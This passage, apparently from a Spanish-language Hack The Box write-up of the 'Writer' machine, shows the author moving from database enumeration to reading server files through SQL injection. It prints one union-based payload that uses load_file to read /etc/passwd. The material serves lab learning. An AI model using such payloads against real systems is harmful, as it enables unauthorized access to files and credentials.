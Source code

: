 Así veremos la información en el campo donde antes nos ponía el "```2```"

<p align="center">
<img src="/assets/images/htb-writeup-writer/img18.png">
</p>

Despues de listar información de la base de datos, no encontré nada interesante, por lo que empezé a leer archivos del sistema con "```load_file()```"

> Payload usado: ```' union select 1,load_file("/etc/passwd"),3,4,5,6 -- -```

<p align="center">
<img src="/assets/images/htb-writeup-writer/img19.png">
</p>
